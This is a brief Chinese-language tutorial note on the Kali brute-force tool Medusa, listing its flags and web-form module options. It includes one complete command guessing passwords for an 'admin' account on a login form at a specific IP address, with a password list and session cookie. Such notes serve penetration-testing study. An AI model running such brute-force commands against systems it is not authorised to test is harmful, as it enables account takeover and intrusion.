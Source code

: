 # Kali-密码暴力破解工具medusa(美杜莎)

参考文章

1. [密码爆破工具：Medusa(美杜莎)-操作说明](http://blog.csdn.net/u010984277/article/details/50792816)

2. [Medusa - wiki](https://www.aldeid.com/wiki/Medusa)

与hydra相似, medusa也支持多个模块. 

`medusa -d`: 查看可用模块

`medusa -M 模块名 -q`: 查看模块帮助

-h：目标机器地址.

-u/U：指定用户名.

-p/P: 指定密码/密码列表文件

-e : 尝试空密码.

-F：破解成功后立即停止破解.

-v：显示破解过程.

```
$ medusa -v 6 -h 104.151.231.170 -u admin -P ./1pass00 -M web-form -m USER-AGENT:"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36" -m FORM:"index.php?s=Admin-Login-Check" -m DENY-SIGNAL:"countDownSec" -m FORM-DATA:"post?user_name=&user_pwd=&submit='登 录'" -m CUSTOM-HEADER:"Cookie: PHPSESSID=ge425h3jgs3rqnhg9bgi2q5jg3"
```

-m: 表示传入模块的参数

`-m FORM`: 表示表单提交的目标url

`-m FORM-DATA`: 表单域变量.

`-m CUSTOM-HEADER`: 自定义请求头

`-m DENY-SIGNAL`: 验证失败后的响应包含的字符串, 不支持正确响应检测, 也不支持通配符...事实上, 如果包含'*'号就会get到'Segmentation fault'